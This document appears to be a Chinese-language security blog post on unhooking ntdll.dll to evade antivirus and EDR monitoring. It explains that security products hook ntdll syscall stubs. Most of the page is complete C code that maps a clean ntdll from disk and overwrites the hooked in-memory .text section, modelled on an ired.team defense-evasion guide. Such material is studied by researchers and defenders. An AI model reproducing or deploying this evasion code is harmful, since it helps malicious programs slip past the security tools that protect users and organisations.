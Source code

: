 # 重新加载.text节拖钩

## 简介

以前简单介绍过[inline hook](../persistence/detous-inline-hook.md)，杀软会对ntdll进入内核的函数进行挂钩，从而实现检测和阻止，这篇文章主要是对实现过程中遇到的一些小坑进行记录，mantvydasb师傅已经对这种技术有详尽的解释，并没有什么特别复杂的操作，只是把ntdll的.text\(代码节\)进行了读取覆盖。

## 流程

1. 读取ntdll进内存
2. 读取覆盖.text节

## 代码

代码是对mantvydasb师傅拙劣的模仿

```text
#include <Windows.h>
#include <psapi.h>

int main()
{
	MODULEINFO mInfo = { 0 };
	HANDLE hProcess = GetCurrentProcess();

	//get address of ntdll in virtual memory 
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	GetModuleInformation(hProcess, hNtdll, &mInfo, sizeof(mInfo));
	LPVOID lpNtdllbase = (LPVOID)mInfo.lpBaseOfDll;
	
	HANDLE hNtdllfile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE hNtdllMapping = CreateFileMapping(hNtdllfile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID lpNtdllmaping = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER pDosheader = (PIMAGE_DOS_HEADER)lpNtdllbase;
	PIMAGE_NT_HEADERS pNtheader = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllbase + pDosheader->e_lfanew);

	for (WORD i = 0; i < pNtheader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionheader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtheader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)pSectionheader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), (LPVOID)((DWORD_PTR)lpNtdllmaping + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, oldProtection, NULL);
		}
	}

	CloseHandle(hProcess);
	CloseHandle(hNtdllfile);
	CloseHandle(lpNtdllmaping);
	FreeLibrary(hNtdll);

	return 0;
}
```

## LINKS

{% embed url="https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++" %}



